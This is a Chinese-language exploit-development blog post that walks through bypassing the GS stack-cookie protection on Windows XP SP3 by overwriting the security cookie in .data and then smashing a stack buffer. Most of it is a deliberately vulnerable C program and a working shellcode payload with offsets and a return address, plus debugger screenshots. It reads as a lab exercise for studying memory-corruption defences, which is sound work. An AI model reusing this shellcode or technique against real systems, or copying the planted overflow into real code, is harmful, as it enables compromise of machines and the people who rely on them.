 ```yaml
---
layout:		post
title:		攻击异常处理突破GS
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

新建一个工程, 贴入以下代码

```
#include <string.h>
#include <stdlib.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90";

void test(char *s, int i, char *src)
{
	char dest[200];
	if(i<0x9995)
	{
		char *buf=s+i;
		*buf+*src;
		*(buf+1)=*(src+1);
		*(buf+2)=*(src+2);
		*(buf+3)=*(src+3);
		strcpy(dest, src);
		__asm int 3
	}
}

int main()
{
	char *str=(char *)malloc(0x10000);
	test(str,0,shellcode);
}
```

项目->属性, 选择release版本, 禁用优化


### 0x01 分析

运行*.exe, OllyDbg自动附加调试

![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x00.png)

单步跟进test函数

![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x01.png)

可以看到程序从0x00403000取出Security Cookie, 与ebp异或后放到ebp-4

![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x02.png)

继续单步到这里, 程序从ebp-4取出Security Cookie, 与ebp异或后, 调用Cookie Check

![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x03.png)

再看看源码, test函数的if条件内可以有4 byte的任意写

12288   65608
### 0x02 exploit

再次附加调试, 断在main入口处, 可以看到返回分配堆块的地址0x00410048

![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x04.png)

当参数i<0, if条件执行, *buf可以指向低位地址0x00403000, 0x00403000-0x00410048=-53320=0xffff2fb8

![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x05.png)

再看看copy数据的起始栈地址0x0012fe94, 返回地址0x0012ff68, ebp=0x0012ff64

![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x06.png)
![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x07.png)

```
#include <string.h>
#include <stdlib.h>

char shellcode[]=
"\x90\x90\x90\x90"		# ./data Security Cookie
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90"
"\xf4\x6f\x82\x90"		# 0x90909090 xor ebp
"\x90\x90\x90\x90"
"\x94\xfe\x12\x00";		# shellcode入口地址

void test(char *s, int i, char *src)
{
	char dest[200];
	if(i<0x9995)
	{
		char *buf=s+i;
		*buf=*src;
		*(buf+1)=*(src+1);
		*(buf+2)=*(src+2);
		*(buf+3)=*(src+3);
		strcpy(dest, src);
	}
}

int main()
{
	char *str=(char *)malloc(0x10000);
	//__asm int 3
	test(str,0xffff2fb8,shellcode);

	return 0;
}
```

将源码如上修改, 构造216 byte的shellcode, 1~4 byte填充"\x90\x90\x90\x90"写入.data, 
205~208 byte填充"\xf4\x6f\x82\x90", 213~216覆盖为shellcode的入口地址, pwn~

![](/assets/img/exploit/2017-10-03-gsbreak-edit-data/0x08.png)